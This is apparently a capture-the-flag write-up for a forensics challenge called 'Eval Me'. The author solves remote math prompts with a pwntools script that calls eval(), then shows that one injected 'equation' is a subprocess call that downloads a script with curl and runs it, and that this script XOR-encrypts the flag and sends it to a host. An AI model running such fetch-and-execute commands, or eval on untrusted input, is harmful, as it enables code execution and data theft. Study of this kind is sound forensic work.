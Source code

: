 # Eval Me Dfir writeup

![](https://hackmd.io/_uploads/ByAw8ywp3.png)



They giving us a challenge and network capture.

First, i started digging in `capture.pcapng` file and found many http requests to the same host and same path also
![](https://hackmd.io/_uploads/B1A1vyD63.png)

![](https://hackmd.io/_uploads/rkcbPkwph.png)

i followed the http stream to saw the http request how it's look like and i found all of them like this 

![](https://hackmd.io/_uploads/r1gIPJvan.png)

just changing in data value 

so, i decided to move to the challenge that he give us in the description maybe i can got something related to these requests !

![](https://hackmd.io/_uploads/rkNCvJPph.png)

after i connecting to it using nc i got this, it looks like a simple pwn tools challenge by just taking every equation and send the result back

so, i created this simple script to see 
```python
from pwn import *
r=remote("chals.sekai.team",9000)    #just for connecting to the challenge

# this function takes the math equation and solve it using eval() function then returning the solution in bytes 
def sol(eq):
    return str(eval(eq)).encode()



# to get and solve the first equation
r.recvuntil(b":)\n\n")
eq=r.recvline().decode().rstrip()
r.sendline(sol(eq))

print(r.clean(2))
```

and i got this output 
![](https://hackmd.io/_uploads/HJB0O1Pan.png)

it's just printing correct and the next equation, so i complete the script to solve all the next 99 equations and see the last output
```python
from pwn import *


def sol(eq):
    return str(eval(eq)).encode()

r=remote("chals.sekai.team",9000)
r.recvuntil(b":)\n\n")
eq=r.recvline().decode().rstrip()


r.sendline(sol(eq))

for i in range(99):
    print(i)
    r.recvuntil(b"correct\n")
    eq=r.recvline().decode().rstrip()
    r.sendline(sol(eq))

print(r.clean(2))
```
> don't do this and pass anything to eval like i did in real cases it's just a ctf challenge :)

and i got this at the end 
![](https://hackmd.io/_uploads/rklIAYJP6h.png)

while doing this i noticed that while solving some equation it takes too much time comparing to the other equations.
and we are in a dfir challenge not actually a misc challenge xD

since eval function is evil so, i decided to print the equation before evaling it ^^!

![](https://hackmd.io/_uploads/r1CdiJv6n.png)

So, Now we know why this equation was taking some time : D

```bash
__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash #1 + 2
```

After following the shorten url it redirected me to this broken img
![](https://hackmd.io/_uploads/SyQHnJwp2.png)

and we can see from the script that this img should have the bash script that will save in extract.sh and executed then.

So, let's download and read this script :) 

![](https://hackmd.io/_uploads/HyzlTJP62.png)

it's just a bash script that openning the flag file and xoring it with the key then send the encrypted hex char to this host.

and then we now what is the http requests in pcap file do !

So, i only got the bytes within the same order and used cyberchef to get the flag

![](https://hackmd.io/_uploads/ryYaa1DT2.png)
